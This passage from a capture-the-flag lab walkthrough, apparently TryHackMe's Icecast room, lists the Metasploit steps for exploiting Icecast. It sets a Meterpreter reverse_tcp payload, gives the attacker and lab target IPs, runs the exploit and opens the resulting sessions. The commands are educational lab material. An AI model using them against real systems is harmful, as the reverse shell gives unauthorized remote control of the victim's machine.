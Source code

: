 {% hint style="success" %}
`#`
{% endhint %}

#### Next, let's set the payload using this command `set PAYLOAD windows/meterpreter/reverse_tcp`. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command `set LHOST YOUR_IP_ON_TRYHACKME`. You might have to check your IP using the command `ip addr`, it will likely be your **tun0** interface.

```bash
set payload windows/meterpreter/reverse_tcp
set LHOST 10.6.9.176
```

#### Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.

```bash
use icecast
```

#### One last step before we can run our exploit. Run the command `set RHOSTS 10.10.21.39` to tell Metasploit which target to attack.

```bash
set RHOSTS 10.10.21.39
set LHOST 10.6.9.176
```

#### Once you're set those variables correctly, run the exploit now via either the command `exploit` or the command `run -j` to run this as a job.

```bash
exploit
```

#### Once we've started this, we can check all of the jobs running on the system by running the command `jobs`

```bash
jobs
```

#### After we've established our connection in the next task, we can list all of our sessions using the command `sessions`. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`

```bash
sessions
sessions -i 1
```
